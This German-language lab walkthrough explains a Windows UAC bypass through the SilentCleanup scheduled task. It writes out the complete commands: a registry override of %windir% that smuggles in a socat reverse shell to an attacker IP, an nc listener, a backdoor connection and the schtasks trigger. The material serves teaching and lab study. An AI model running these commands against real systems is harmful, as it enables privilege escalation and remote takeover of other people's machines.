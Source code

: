 Hier sehen wir, dass die Aufgabe so konfiguriert ist, dass sie mit dem **Benutzerkonto** ausgeführt wird, was bedeutet, dass sie die Rechte des aufrufenden Benutzers erbt. Die Option "Mit höchsten Privilegien ausführen" verwendet das höchste Privileg-Sicherheitstoken, das dem aufrufenden Benutzer zur Verfügung steht, was für einen Administrator ein Token mit hoher Integritätsstufe (IL) ist. Beachten Sie, dass, wenn ein normaler Benutzer ohne Administratorrechte diese Aufgabe aufruft, sie nur mit mittlerer IL ausgeführt wird, da dies das höchste Privileg ist, das Nicht-Administratoren zur Verfügung steht, und daher die Umgehung nicht funktionieren würde.

Überprüfen Sie die Registerkarten "Aktionen" und "Einstellungen", wir haben Folgendes:
![2024-07-08-3b8dd4c6a441eb19620bc3bedd536a8b.png](Bilder/2024-07-08-3b8dd4c6a441eb19620bc3bedd536a8b.png)

Die Aufgabe kann auf Abruf ausgeführt werden und führt beim Aufruf den folgenden Befehl aus:

`%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Da der Befehl von Umgebungsvariablen abhängt, könnten wir möglicherweise Befehle durch sie injizieren und sie ausführen lassen, indem wir die Datenträgerbereinigungsaufgabe manuell starten.

Glücklicherweise können wir die Variable `%windir%` über die Registrierung überschreiben, indem wir einen Eintrag in `HKCU\Environment` erstellen. Wenn wir eine Reverse-Shell mit socat ausführen möchten, können wir `%windir%` wie folgt festlegen (ohne die Anführungszeichen):

`"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

Am Ende unseres Befehls fügen wir "&REM " (mit einem Leerzeichen am Ende) hinzu, um alles, was nach `%windir%` steht, zu kommentieren, wenn die Umgebungsvariable erweitert wird, um den endgültigen Befehl zu erhalten, der von der Datenträgerbereinigung verwendet wird. Der resultierende Befehl wäre (stellen Sie sicher, dass Sie Ihre IP-Adresse entsprechend ersetzen):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

Wobei alles nach "REM" als Kommentar ignoriert wird.

### Alles zusammenfügen

Richten wir einen Listener für eine Reverse-Shell mit nc ein:
`nc -lvp 4446`

Dann verbinden wir uns mit der Backdoor auf Port 9999:
`nc MACHINE_IP 9999`

Und führen schließlich die folgenden Befehle aus, um unser Payload in `%windir%` zu schreiben und dann die Datenträgerbereinigungsaufgabe auszuführen (stellen Sie sicher, dass Sie Ihre IP-Adresse entsprechend ersetzen):
```cmd
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```
